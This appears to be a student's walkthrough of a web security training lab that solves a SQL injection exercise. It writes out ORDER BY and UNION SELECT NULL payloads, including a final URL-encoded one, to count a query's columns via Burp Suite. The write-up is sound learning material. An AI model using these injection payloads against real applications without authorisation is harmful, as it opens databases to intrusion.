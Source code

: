 # Lab 7

# This lab contains a SQL injection vulnerability in the product category filter.

- The results from the query are returned in the application's response, so you can use a UNION attack   to retrieve data from other tables.
- The first step of such an attack is to *determine the number of columns* that are being returned by the query.

# To solve the lab, determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values.

# Step 1 : acess the lab

# step 2 : Determine the no of column returned by a query
- There are two effective methods to determine how many columns are being returned from the original query.
- ORDER BY
```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```

- UNION SELECT
```SQL
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```
- If the number of nulls does not match the number of columns, the database returns an error.

# Use Burp Suite to intercept and modify the request that sets the product category filter.

# step 3 : Modify product category parameter
- Modify the category parameter, giving it the value.
```SQL
'+UNION+SELECT+NULL--
```

- this shows internal server error.
- Modify the category parameter to add an additional column containing a null value:
```
'+UNION+SELECT+NULL,NULL--
```
- add null values until the eroor disappears.

# final solution
```SQL
'+UNION+SELECT+NULL,NULL,NULL--
```

![lab_solved](Images/L4step1.png)





